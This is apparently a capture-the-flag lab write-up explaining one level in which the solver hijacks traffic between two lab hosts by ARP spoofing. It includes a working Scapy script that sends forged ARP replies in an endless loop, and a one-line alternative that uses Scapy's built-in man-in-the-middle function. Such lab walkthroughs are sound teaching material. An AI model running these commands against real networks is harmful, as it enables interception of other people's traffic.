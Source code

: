 This level requires us to hijack traffic of a remote host `10.0.0.4` who's communicating with `10.0.0.2` on port `31337`. We need to send an ARP `is-at` packet to `10.0.0.4` telling it that `10.0.0.2` is at this MAC address, when in reality, the MAC address is actually our MAC address. We send the packet repeatedly so that even if `10.0.0.2` tries to send an `is-at` request, we'd send one immediately after, effectively overwriting `10.0.0.4` ARP table, so that all of the request would go to us instead of `10.0.0.2`.

```python
from scapy.all import *

arp = ARP(psrc="10.0.0.2", pdst="10.0.0.4", hwsrc="42:90:81:0d:9a:18", hwdst=getmacbyip("10.0.0.4"), op=2)

while True:
	send(arp)
```

Alternatively, `scapy` also offer a man-in-the-middle function out of the box. So we could just type this:

```python
from scapy.all import *

arp_mitm("10.0.0.4", "10.0.0.2")
```